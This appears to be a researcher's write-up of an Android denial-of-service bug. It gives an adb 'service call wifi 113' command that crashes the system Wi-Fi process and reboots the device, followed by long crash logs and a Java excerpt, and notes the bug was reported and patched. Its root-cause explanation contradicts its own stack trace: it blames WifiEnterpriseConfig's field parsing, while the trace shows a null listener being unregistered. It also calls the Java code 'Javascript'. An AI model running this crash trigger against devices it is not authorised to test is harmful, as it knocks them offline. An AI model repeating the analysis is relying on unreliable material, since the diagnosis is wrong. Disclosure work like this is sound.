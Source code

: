 # Silly calls and silly bugs 

bugs in android that cause a dos. 

I was needing a break form IOS and MACos so I deviced to focous on Android  bugs and a way to find them, this lead me down a rabit hole about service calls. In this write up, I will cover service calls, and a null defefferecne which leads to the device shutting off once sent via abd to the device. 

![Android Stack](https://source.android.com/static/images/android-stack.svg)

Service call layout:
$ adb shell SERVICENAME 


Covering the crash, afetr we send our service call, to the wifi stack, we can see the following crash, if we continie to spam the device with the packets after the null pointer it then shuts off the device and causes a reboot, for some reason I do not know why. But this is what it does. It has since been patched and can be seen here[] as patched, I may have submitted it the wrong way to the Android team, I thought if you posted directly on thier bugs some bugs could get noticed by the security team where this is not the case, I then had to then re report the bug to product security and hopefully, this meets the critiria for a CVE as it does cause a dos in the system due to a NPE.

```bash
$ adb adb shell service call wifi 113

$ adb logcat -b crash
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.RemoteCallbackList.unregister(RemoteCallbackList.java:156)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiMetrics.removeOnWifiUsabilityListener(WifiMetrics.java:7559)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.lambda$removeOnWifiUsabilityStatsListener$108(WifiServiceImpl.java:6283)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.$r8$lambda$SBpNFH_Zvv16E23PY-wxYG5jMI4(WifiServiceImpl.java:0)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl$$ExternalSyntheticLambda117.run(R8$$SyntheticClass:0)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Handler.handleCallback(Handler.java:958)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Handler.dispatchMessage(Handler.java:99)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.RunnerHandler.dispatchMessage(RunnerHandler.java:122)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Looper.loopOnce(Looper.java:230)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Looper.loop(Looper.java:319)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.HandlerThread.run(HandlerThread.java:67)
02-22 14:12:15.126 14876 30004 E AndroidRuntime: FATAL EXCEPTION: lowpool[28]
02-22 14:12:15.126 14876 30004 E AndroidRuntime: Process: com.google.android.gms.persistent, PID: 14876
02-22 14:12:15.126 14876 30004 E AndroidRuntime: DeadSystemException: The system died; earlier logs will point to the root cause
02-22 14:15:18.576 30232 30495 E AndroidRuntime: !@*** FATAL EXCEPTION IN SYSTEM PROCESS: WifiHandlerThread
02-22 14:15:18.576 30232 30495 E AndroidRuntime: java.lang.NullPointerException: Attempt to invoke interface method 'android.os.IBinder android.os.IInterface.asBinder()' on a null object reference
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.RemoteCallbackList.unregister(RemoteCallbackList.java:156)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiMetrics.removeOnWifiUsabilityListener(WifiMetrics.java:7559)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.lambda$removeOnWifiUsabilityStatsListener$108(WifiServiceImpl.java:6283)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.$r8$lambda$SBpNFH_Zvv16E23PY-wxYG5jMI4(WifiServiceImpl.java:0)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl$$ExternalSyntheticLambda117.run(R8$$SyntheticClass:0)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Handler.handleCallback(Handler.java:958)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Handler.dispatchMessage(Handler.java:99)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.RunnerHandler.dispatchMessage(RunnerHandler.java:122)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Looper.loopOnce(Looper.java:230)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Looper.loop(Looper.java:319)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.HandlerThread.run(HandlerThread.java:67)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: !@*** FATAL EXCEPTION IN SYSTEM PROCESS: WifiHandlerThread
02-22 14:18:15.797 15657 15912 E AndroidRuntime: java.lang.NullPointerException: Attempt to invoke interface method 'android.os.IBinder android.os.IInterface.asBinder()' on a null object reference
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.RemoteCallbackList.unregister(RemoteCallbackList.java:156)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiMetrics.removeOnWifiUsabilityListener(WifiMetrics.java:7559)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.lambda$removeOnWifiUsabilityStatsListener$108(WifiServiceImpl.java:6283)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.$r8$lambda$SBpNFH_Zvv16E23PY-wxYG5jMI4(WifiServiceImpl.java:0)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl$$ExternalSyntheticLambda117.run(R8$$SyntheticClass:0)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Handler.handleCallback(Handler.java:958)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Handler.dispatchMessage(Handler.java:99)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.RunnerHandler.dispatchMessage(RunnerHandler.java:122)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Looper.loopOnce(Looper.java:230)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Looper.loop(Looper.java:319)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.HandlerThread.run(HandlerThread.java:67)
```
Now if the Javascript code is then reviewed this can be traced to the following paramaters of the JS object. 

![Android WIFI stack](https://source.android.com/static/docs/core/architecture/images/wifi-components.png)


#### - android.net.wifi.WifiEnterpriseConfig
```Java 
public static final Creator<WifiEnterpriseConfig> CREATOR =
            new Creator<WifiEnterpriseConfig>() {
                public WifiEnterpriseConfig createFromParcel(Parcel in) {
                    WifiEnterpriseConfig enterpriseConfig = new WifiEnterpriseConfig();
                    int count = in.readInt();
                    for (int i = 0; i < count; i++) {
                        String key = in.readString();
                        String value = in.readString();
                        enterpriseConfig.mFields.put(key, value);
                    }
                    enterpriseConfig.mCaCert = readCertificate(in);
                    PrivateKey userKey = null;
                    int len = in.readInt();
                    if (len > 0) {
                        try {
                            byte[] bytes = new byte[len];
                            in.readByteArray(bytes);
                            String algorithm = in.readString();
                            KeyFactory keyFactory = KeyFactory.getInstance(algorithm);
                            userKey = keyFactory.generatePrivate(new PKCS8EncodedKeySpec(bytes));
                        } catch (NoSuchAlgorithmException e) {
                            userKey = null;
                        } catch (InvalidKeySpecException e) {
                            userKey = null;
                        }
                    }
                    enterpriseConfig.mClientPrivateKey = userKey;
                    enterpriseConfig.mClientCertificate = readCertificate(in);
                    return enterpriseConfig;
                }
```

The trigger of the crash is the following, by simply calling wifi 113 

``` Java 
enterpriseConfig.mFields.put(key, value);
```
The mfields are used as a hash reprensetation of the keys used for authentication in the WifiEnterpriseConfig which would make sense as there needs to be some form of verification/attistation for WIFI. By giving this a null or simply call the service without any other stages for authentication will simpaly trigger the defrffrence, though this could be triggered ina real situation, if just a null object was passed to the device when it is searching for wifi. 




https://issuetracker.google.com/issues/326278126




